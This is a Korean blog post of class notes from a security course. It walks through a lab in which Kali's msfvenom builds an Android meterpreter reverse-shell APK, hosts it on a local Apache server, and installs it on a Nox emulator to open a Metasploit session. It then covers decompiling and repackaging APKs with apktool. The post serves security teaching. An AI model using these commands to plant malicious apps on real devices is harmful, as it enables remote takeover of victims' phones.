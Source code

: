```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 2日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 2日차 수업 정리한 내용입니다.
#image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
#published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/GYTy3pD9PMQ' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 2일자 수업

### 1. Kali Linux

#### 1-1. Kali Linux & Metasploit

> 先 3줄 요약<br>
> 1. Kali에서 apache2를 실행하여 외부에서 접속 가능한지 확인.
> 2. Kali에서 metasploit console을 실행하여 apk에 악성앱 탑재.
> 3. Nox에서 실행하고, Kali에서 session 확인하기.
{:.lead}

먼저 kali에서다음을 확입합니다.
1. vm 네트워크 NAT 설정
2. sudo service apache2 restart
	웹 페이지를 오픈
3. ip확인(ip addr, ifconfig)
{:.lead}

다음으로 Nox에서
1. 인터넷 브라우저로 ip에 접근하여 nox에서 kali로 접근되는지 확인

그리고 kali에서
1. msfvenom -p android/meterpreter/reverse_tcp LHOST=ip address LPORT=4444 R > apk 
2. sudo cp apk /var/www/html/ # 생성된 악성코드를 웹 배포
3. msfconsole # 메타스플로잇 콘솔 실행
4. use exploit/multi/handler # 핸들러 설정
5. set payload android/meterpreter/reverse_tcp # 페이로드 설정
6. set LHOST ip address # ip설정
7. set LPORT 4444 # 포트 설정
8. set exitonsession false 
9. exploit -j #실행

그리고 Nox에서
10. 인터넷 브라우저로 접근하여 apk설치

마지막으로 kali에서
1. sessions # 세션확인
2. sessions -i
3. sudo cp apk /var/www/html/apk.zip

```bash
tasklist | findstr Nox(nox handler)
netstat  -ano | pid
adb connect 127.0.0.1:62001 #Nox ip, port
```

### 2. Apk Decompile, Re-Package

APK 디컴파일 할 때 JAVA와 apktool이 요구됩니다. APK는 자바 -> 클래스 -> 덱스 -> smali -> java과 같은 구조를 지니고 있습니다.
{:.note}

```shell
java -jar apktool_2.5.0.jar d apk파일명 #d는 디컴파일을 의미
```

```shell
java -jar apktool_2.5.0.jar b apk파일명 #b는 리패키징
```

```shell
d2j-dex2jar.bat apk파일명 #jar파일 생성 = class
```
